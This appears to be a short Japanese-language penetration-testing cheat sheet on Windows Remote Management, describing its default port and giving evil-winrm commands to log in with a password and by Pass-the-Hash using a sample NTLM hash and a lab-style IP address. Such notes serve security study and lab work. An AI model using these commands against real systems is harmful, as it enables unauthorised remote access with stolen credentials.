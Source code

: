 ## ## 基本情報
LinuxでいうところのSSHみたいなもん。
デフォるとポートは5985で動作する。

## ## 接続方法
- 資格情報があるときの接続方法
```sh
evil-winrm -i <target_IP or Hostname> -u <username> -p <Password>
```

- hashで接続しに行くやり方(Pass The Hash)
```sh
evil-winrm -u administrator -H '0e0363213e37b94221497260b0bcb4fc' -i 10.10.22.204
```